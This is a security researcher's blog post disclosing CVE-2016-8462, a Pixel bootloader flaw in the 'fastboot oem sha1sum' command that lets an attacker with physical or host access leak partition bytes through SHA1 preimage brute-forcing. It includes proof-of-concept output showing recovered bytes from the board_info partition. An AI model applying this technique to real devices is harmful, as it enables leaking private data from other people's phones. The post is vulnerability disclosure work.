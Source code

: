 ```yaml
---
layout: post
title: fastboot oem sha1sum
author: Roee Hay
date: '2017-01-04'
tags:

---
```


In the [January 2017 Android Security Bulletin](https://source.android.com/security/bulletin/2017-01-01.html#id-in-bootloader), Google has provided a patch to CVE-2016-8462, an interesting vulnerabiltiy in the Pixels' bootloader. I reported this issue to Google last December, but unfortunately got beat by Jon Sawyer ([@jcase](https://twitter.com/jcase)) and Sean Beaupre ([@firewaterdevs](https://twitter.com/firewaterdevs)), who reported it in October, so kudos to them!


Google Pixel's bootloader contains a proprietary fastboot oem command ('sha1sum'). This commands accepts three
arguments: partition name, size and offset, with the constraint that size >= offset. Thus, a physical attacker, a
malicious charger or a malicious host (with ADB access -- that can reboot the device to the bootloader) can easily
compute the preimage of the first bytes of any partition. This may allow the attacker to leak sensitive information
out of the device. In addition to the first bytes, one can conduct a preimage attack of higher offsets if a specific
pattern is (approximately) known , such as a known suffix or a prefix. 
What you can see below is the output of two
runs of our PoC against the board_info partition. The first run leaks bytes 0-7 ("HTC-BOAR") and the second run
leaks bytes 158-161 ("\xA2\x80\x00\x00")

{% highlight C %}


>> preimage.py board_info
> fastboot oem sha1sum board_info 0 1 = 7cf184f4c67ad58283ecb19349720b0cae756829 (1 bytes )
00000000 : 48 H
> fastboot oem sha1sum board_info 1 1 = c2c53d66948214258a26ca9ca845d7ac0c17f8e7 (1 bytes )
00000001 : 54 T
> fastboot oem sha1sum board_info 2 2 = f1dfdb58024fd801bb8d8d91b16183f255579149 (2 bytes )
00000002 : 43 C
00000003 : 2d -
> fastboot oem sha1sum board_info 3 3 = 16ad0e2f78e56b3d6dc93bd203e12b8118605de5 (3 bytes )
00000004 : 42 B
00000005 : 4f O
> fastboot oem sha1sum board_info 4 4 = 7e426c6d5f7b5ce99624a8e678a79828180bcd77 (4 bytes )
00000006 : 41 A
00000007 : 52 R
>> preimage.py board_info 4 158
> fastboot oem sha1sum board_info 158 158 = 45b1b0a4fe2bbefb1f7eb001b57bcb61a1d025b9 (158 bytes )
0000009e : a2 
0000009f : 80
000000a0 : 00
000000a1 : 00

{% endhighlight %}

Google's patch now prevents running the command on an arbitrary partition.

